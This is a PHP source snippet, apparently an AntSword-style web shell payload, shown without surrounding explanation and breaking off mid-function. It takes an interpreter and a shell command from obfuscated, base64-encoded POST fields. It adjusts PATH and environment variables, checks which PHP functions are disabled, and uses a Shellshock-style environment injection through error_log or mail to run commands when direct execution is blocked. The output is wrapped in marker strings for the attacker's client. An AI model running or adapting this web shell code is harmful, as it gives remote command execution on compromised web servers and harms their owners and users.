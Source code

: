 ```php
function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "5b8e" . "a5cdd";
    echo @asenc($output);
    echo "542ba" . "3c7833";
}

ob_start();
try {
    // 解析 base64 编码的参数
    $p = base64_decode(substr($_POST["c045fb6cb12372"], 2));
    $s = base64_decode(substr($_POST["jbb3acf47e78a1"], 2));
    $envstr = @base64_decode(substr($_POST["c58e587ec1d00d"], 2));
    
    $d = dirname($_SERVER["SCRIPT_FILENAME"]);
    $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
    
    if (substr($d, 0, 1) == "/") {
        @putenv("PATH=" . getenv("PATH") . ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    } else {
        @putenv("PATH=" . getenv("PATH") . ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/");
    }
    
    if (!empty($envstr)) {
        $envarr = explode("|||asline|||", $envstr);
        foreach ($envarr as $v) {
            if (!empty($v)) {
                @putenv(str_replace("|||askey|||", "=", $v));
            }
        }
    }
    
    $r = "{$p} {$c}";

    function fe($f) {
        $d = explode(",", @ini_get("disable_functions"));
        if (empty($d)) {
            $d = array();
        } else {
            $d = array_map('trim', array_map('strtolower', $d));
        }
        return (function_exists($f) && is_callable($f) && !in_array($f, $d));
    }

    function runshellshock($d, $c) {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") !== FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { :; }; {$c} >{$tmp} 2>&1");
                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }
            } else {
                return False;
            }
            $output = @file_get_contents($tmp);
            @unlink($tmp);
            if ($output != "") {
```